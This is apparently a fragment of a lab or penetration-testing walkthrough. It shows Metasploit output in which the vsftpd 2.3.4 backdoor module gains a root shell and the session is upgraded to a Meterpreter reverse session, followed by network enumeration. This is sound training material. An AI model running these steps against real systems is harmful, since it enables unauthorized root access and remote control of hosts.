 ```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.103.56.2:39117 -> 192.103.56.3:6200 (192.103.56.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.103.56.2:4433 
[*] Sending stage (985320 bytes) to 192.103.56.3
[*] Meterpreter session 2 opened (192.103.56.2:4433 -> 192.103.56.3:48802) at 2023-06-13 02:25:41 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                  Connection
  --  ----  ----                   -----------                                  ----------
  1         shell cmd/unix                                                      192.103.56.2:39117 -> 192.103.56.3:6200 (192.103.56.3)
  2         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.103.56.3  192.103.56.2:4433 -> 192.103.56.3:48802 (192.103.56.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```

```
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface  2
============
Name         : ip_vti0
Hardware MAC : 00:00:00:00:00:00
MTU          : 1480
Flags        : NOARP


Interface 141414
============
Name         : eth0
Hardware MAC : 02:42:c0:67:38:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
```